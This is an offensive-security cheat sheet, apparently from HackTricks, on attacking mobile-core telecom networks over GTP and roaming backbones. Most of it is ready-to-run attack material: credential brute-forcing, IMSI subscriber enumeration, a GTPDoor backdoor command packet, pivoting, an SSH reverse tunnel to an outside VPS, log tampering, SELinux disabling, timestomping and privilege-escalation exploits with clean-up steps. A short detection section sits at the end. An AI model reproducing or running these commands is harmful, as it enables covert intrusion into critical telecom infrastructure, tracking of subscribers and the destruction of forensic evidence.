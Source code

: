 # Telecom Network Exploitation (GTP / Roaming Environments)

{{#include ../../banners/hacktricks-training.md}}

> [!NOTE]
> Mobile-core protocols (GPRS Tunnelling Protocol – GTP) often traverse semi-trusted GRX/IPX roaming backbones.  Because they ride on plain UDP with almost no authentication, **any foothold inside a telecom perimeter can usually reach core signalling planes directly**.  The following notes collect offensive tricks observed in the wild against SGSN/GGSN, PGW/SGW and other EPC nodes.

## 1. Recon & Initial Access

### 1.1  Default OSS / NE Accounts
A surprisingly large set of vendor network elements ship with hard-coded SSH/Telnet users such as `root:admin`, `dbadmin:dbadmin`, `cacti:cacti`, `ftpuser:ftpuser`, …  A dedicated wordlist dramatically increases brute-force success:

```bash
hydra -L usernames.txt -P vendor_telecom_defaults.txt ssh://10.10.10.10 -t 8 -o found.txt
```

If the device exposes only a management VRF, pivot through a jump host first (see section «SGSN Emu Tunnel» below).

### 1.2  Host Discovery inside GRX/IPX
Most GRX operators still allow **ICMP echo** across the backbone.  Combine `masscan` with the built-in `gtpv1` UDP probes to quickly map GTP-C listeners:

```bash
masscan 10.0.0.0/8 -pU:2123 --rate 50000 --router-ip 10.0.0.254 --router-mac 00:11:22:33:44:55
```

## 2. Enumerating Subscribers – `cordscan`

The following Go tool crafts **GTP-C Create PDP Context Request** packets and logs the responses.  Each reply reveals the current **SGSN / MME** serving the queried IMSI and, sometimes, the subscriber’s visited PLMN.

```bash
# Build
GOOS=linux GOARCH=amd64 go build -o cordscan ./cmd/cordscan

# Usage (typical):
./cordscan --imsi 404995112345678 --oper 40499 -w out.pcap
```
Key flags:
- `--imsi` Target subscriber IMSI
- `--oper` Home / HNI (MCC+MNC)
- `-w`      Write raw packets to pcap

Important constants inside the binary can be patched to widen scans:

```
pingtimeout       = 3   // seconds before giving up
pco               = 0x218080
common_tcp_ports  = "22,23,80,443,8080"
```

## 3. Code Execution over GTP – `GTPDoor`

`GTPDoor` is a tiny ELF service that **binds UDP 2123 and parses every incoming GTP-C packet**.  When the payload starts with a pre-shared tag, the remainder is decrypted (AES-128-CBC) and executed via `/bin/sh -c`.  The stdout/stderr are exfiltrated inside **Echo Response** messages so that no outward session is ever created.

Minimal PoC packet (Python):

```python
import gtpc, Crypto.Cipher.AES as AES
key = b"SixteenByteKey!"
cmd = b"id;uname -a"
enc = AES.new(key, AES.MODE_CBC, iv=b"\x00"*16).encrypt(cmd.ljust(32,b"\x00"))
print(gtpc.build_echo_req(tag=b"MAG1C", blob=enc))
```

Detection:
* any host sending **unbalanced Echo Requests** to SGSN IPs
* GTP version flag set to 1 while message type = 1 (Echo) – deviation from spec

## 4. Pivoting Through the Core

### 4.1  `sgsnemu` + SOCKS5
`OsmoGGSN` ships an SGSN emulator able to **establish a PDP context towards a real GGSN/PGW**.  Once negotiated, Linux receives a new `tun0` interface reachable from the roaming peer.

```bash
sgsnemu -g 10.1.1.100 -i 10.1.1.10 -m 40499 -s 404995112345678 \
       -APN internet -c 1 -d
ip route add 172.16.0.0/12 dev tun0
microsocks -p 1080 &   # internal SOCKS proxy
```

With proper firewall hair-pinning, this tunnel bypasses signalling-only VLANs and lands you directly in the **data plane**.

### 4.2  SSH Reverse Tunnel over Port 53
DNS is almost always open in roaming infrastructures.  Expose an internal SSH service to your VPS listening on :53 and return later from home:

```bash
ssh -f -N -R 0.0.0.0:53:127.0.0.1:22 user@vps.example.com
```
Check that `GatewayPorts yes` is enabled on the VPS.

## 5. Covert Channels

| Channel | Transport | Decoding | Notes |
|---------|-----------|----------|-------|
| ICMP – `EchoBackdoor` | ICMP Echo Req/Rep | 4-byte key + 14-byte chunks (XOR) | pure passive listener, no outbound traffic |
| DNS – `NoDepDNS` | UDP 53 | XOR (key = `funnyAndHappy`) encoded in A-record octets | watches for `*.nodep` sub-domain |
| GTP – `GTPDoor` | UDP 2123 | AES-128-CBC blob in private IE | blends with legitimate GTP-C chatter |

All implants implement watchdogs that **timestomp** their binaries and re-spawn if crashed.

## 6. Defense Evasion Cheatsheet

```bash
# Remove attacker IPs from wtmp
utmpdump /var/log/wtmp | sed '/203\.0\.113\.66/d' | utmpdump -r > /tmp/clean && mv /tmp/clean /var/log/wtmp

# Disable bash history
export HISTFILE=/dev/null

# Masquerade as kernel thread
echo 0 > /proc/$$/autogroup   # hide from top/htop
printf '\0' > /proc/$$/comm    # appears as [kworker/1]

touch -r /usr/bin/time /usr/bin/chargen   # timestomp
setenforce 0                              # disable SELinux
```

## 7. Privilege Escalation on Legacy NE

```bash
# DirtyCow – CVE-2016-5195
gcc -pthread dirty.c -o dirty && ./dirty /etc/passwd

# PwnKit – CVE-2021-4034
python3 PwnKit.py

# Sudo Baron Samedit – CVE-2021-3156
python3 exploit_userspec.py
```

Clean-up tip:
```bash
userdel firefart 2>/dev/null
rm -f /tmp/sh ; history -c
```

## 8. Tool Box

* `cordscan`, `GTPDoor`, `EchoBackdoor`, `NoDepDNS` – custom tooling described in previous sections.
* `FScan` : intranet TCP sweeps (`fscan -p 22,80,443 10.0.0.0/24`)
* `Responder` : LLMNR/NBT-NS rogue WPAD
* `Microsocks` + `ProxyChains` : lightweight SOCKS5 pivoting
* `FRP` (≥0.37) : NAT traversal / asset bridging

---
## Detection Ideas
1. **Any device other than an SGSN/GGSN establishing Create PDP Context Requests**.
2. **Non-standard ports (53, 80, 443) receiving SSH handshakes** from internal IPs.
3. **Frequent Echo Requests without corresponding Echo Responses** – might indicate GTPDoor beacons.
4. **High rate of ICMP echo-reply traffic with large, non-zero identifier/sequence fields**.

## References

- [Palo Alto Unit42 – Infiltration of Global Telecom Networks](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)
- 3GPP TS 29.060 – GPRS Tunnelling Protocol (v16.4.0)
- 3GPP TS 29.281 – GTPv2-C (v17.6.0)

{{#include ../../banners/hacktricks-training.md}}